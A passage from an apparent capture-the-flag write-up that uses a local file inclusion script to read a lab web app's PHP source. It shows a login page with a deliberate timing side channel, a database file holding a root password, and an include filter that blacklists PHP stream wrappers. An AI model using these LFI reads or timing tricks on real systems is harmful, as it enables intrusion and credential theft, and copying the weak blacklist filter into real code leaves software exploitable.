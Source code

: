 We can create a quick `bash` script to automate this. Anyways, now that we have this, we can read all the files that we fuzzed earlier. Here's the `login.php` file contents:

```php
<?php

include "header.php";

function createTimeChannel()
{
    sleep(1);
}
include "db_conn.php";
if (isset($_SESSION['userid'])){
    header('Location: ./index.php');
    die();
}
if (isset($_GET['login'])) {
    $username = $_POST['user'];
    $password = $_POST['password'];

    $statement = $pdo->prepare("SELECT * FROM users WHERE username = :username");
    $result = $statement->execute(array('username' => $username));
    $user = $statement->fetch();

    if ($user !== false) {
        createTimeChannel();
        if (password_verify($password, $user['password'])) {
            $_SESSION['userid'] = $user['id'];
            $_SESSION['role'] = $user['role'];
            header('Location: ./index.php');
            return;
        }
    }
    $errorMessage = "Invalid username or password entered";
}
?>
```

There's a `db_conn.php` file present.&#x20;

```php
$ ./lfi.sh /var/www/html/db_conn.php
<?php
$pdo = new PDO('mysql:host=localhost;dbname=app', 'root', '4_V3Ry_l0000n9_p422w0rd');
```

But with this password, we can't really do anyhting because we don't have a user that we can use. We can also read the `image.php` file itself:

```php
<?php

function is_safe_include($text)
{
    $blacklist = array("php://input", "phar://", "zip://", "ftp://", "file://", "http://", "data://", "expect://", "https://", "../");

    foreach ($blacklist as $item) {
        if (strpos($text, $item) !== false) {
            return false;
        }
    }
    return substr($text, 0, 1) !== "/";

}

```